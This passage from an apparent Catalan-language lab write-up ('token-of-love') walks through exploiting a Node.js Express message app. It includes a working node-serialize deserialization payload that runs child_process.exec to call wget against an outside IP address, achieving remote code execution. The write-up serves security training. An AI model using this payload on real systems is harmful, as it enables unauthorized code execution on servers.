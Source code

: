 ```javascript
        .then(data => {
          if(data.message) {
            alert(data.message);
            document.getElementById('messageText').value = '';
            loadMessages();
          } else {
            alert('Error al enviar mensaje');
          }
        })
        .catch(error => {
          console.error('Error al enviar mensaje:', error);
          alert('Error al enviar mensaje');
        });
      });
```

D'altra banda, observant les capçaleres de la resposta que vam obtenir al principi amb `whatweb` o mitjançant les eines de desenvolupador del propi navegador, podem veure que el backend és una aplicació amb Express, un framework de Node.js.

![alt text](../../../assets/images/token-of-love/image-8.png)

A més, hi ha un missatge molt subjectiu a la web:

```text
Serializa tu mensaje y envíalo con cariño.
```

Utilitzem Burp Suite i capturem l'enviament d'un missatge i l'enviem al repeater.

Modifiquem les dades enviades amb el següent payload:

```json
{"data":"{\"text\":\"test\",\"rce\":\"_$$ND_FUNC$$_function (){require('child_process').exec('wget 192.168.1.116', function(error, stdout, stderr) { console.log(stdout) });}()\"}"}
```

Envia un JSON amb el paràmetre `data`, on dins sembla enviar un altre JSON, que en realitat és un objecte JavaScript que es deserialitza al servidor, aconseguint així RCE.
